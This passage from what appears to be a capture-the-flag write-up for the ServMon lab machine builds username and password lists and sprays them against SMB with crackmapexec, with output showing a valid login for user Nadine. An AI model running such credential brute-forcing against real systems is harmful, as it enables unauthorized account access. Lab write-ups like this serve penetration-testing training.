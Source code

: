 From the FTP share, we can find two users called "Nadine" and "Nathan". This being a windows machine, we can confidently add one more user, "Administrator". I am saving it as `users.txt`.

```text
Administrator
Nadine
Nathan
```

#### Passwords

The list of passwords would be in `passwords.txt`.

```text
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

### Brute Force

Now we are going to use one of the most useful tools when it comes to Windows Penetration Testing, called `crackmapexec`.

```bash
0hmsec@kali:-$ crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Administrator:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
```